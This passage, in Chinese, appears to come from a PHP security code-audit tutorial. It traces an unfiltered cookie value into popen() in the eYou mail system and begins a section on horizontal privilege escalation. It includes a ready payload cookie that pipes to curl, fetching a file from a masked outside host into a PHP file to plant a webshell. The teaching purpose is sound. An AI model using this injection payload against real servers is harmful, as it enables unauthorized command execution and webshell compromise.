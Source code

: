 &emsp;&emsp;直接从cookie中获取参数USER，然后赋值给uid和domain

&emsp;&emsp;看看函数readAddress($uid, $domain);

```php
function readAddress($uid,$domain){
    $binary = array();
    $userDir = getUserDir($uid,$domain);
    $addressDir = trim($userDir, "\n\r ")."/Profile/alias.individual";
    if(!is_file($addressDir)) return false;
    $fp = fopen($addressDir, "r");
    if(!$fp){ 
                echo "打开地址薄失败";
                exit;
        }
    while(false != ($content = fgets($fp, 568))){
        $binary[] =unpack("a20nick_name/a40email/a40name/a60h_street_address/a30h_city/a30h_province/a8h_zip/a20h_country/a16h_phone/a30c_company/a60c_street_address/a30c_city/a30c_province/a8c_zip/a20c_country/a16c_phone/a16pager/a16cellular/a16fax/a20icq/a30other/a5b_year/a3b_month/a3b_day",$content);
    }
    //var_dump($binary);
   return $binary;
}
```

&emsp;&emsp;最后，uid和domain又进入了函数getUserDir($uid,$domain）我们继续跟进getUserDir

```php
function getUserDir($uid, $domain) {
    $handle = popen("/var/eyou/sbin/hashid $uid $domain", 'r');
    $read = fread($handle, 2096);
    pclose($handle);
    return $read;
}
```

&emsp;&emsp;最后uid和domain进入了popen $handle = popen("/var/eyou/sbin/hashid $uid $domain", 'r');这里的/var/eyou/sbin/hashid是亿邮系统执行命令的此时，uid和domain没有经过任何过滤直接进入了命令，导致任意命令执行。

&emsp;&emsp;我们构造payload的cookie数据：UID=1|curl http://**.**.**.**/test.txt>>testfortest.php就可以实现getshell了。

## 1.5  水平越权

### 1.5.1 漏洞描述

&emsp;&emsp;水平越权漏洞，是一种“基于数据的访问控制”设计缺陷引起的漏洞。由于服务器端在接收到请求数据进行操作时，没有判断数据的所属人，而导致的越权数据访问漏洞。如服务器端从客户端提交的request参数（用户可控数据）中获取用户id，恶意攻击者通过变换请求ID的值，查看或修改不属于本人的数据。

### 1.5.2 审计方法

1.参数是否用户可控

2.是否进行了鉴权操作
